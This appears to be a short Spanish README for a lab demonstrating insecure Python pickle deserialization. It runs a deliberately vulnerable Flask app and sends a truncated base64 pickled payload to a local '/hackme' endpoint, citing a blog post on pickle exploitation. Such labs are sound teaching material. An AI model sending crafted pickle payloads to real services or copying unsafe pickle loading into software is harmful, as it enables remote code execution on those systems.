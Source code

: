 ### Ejecucion del app.py vulnerable
```
flask run
```

### Enviar petición
url -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]
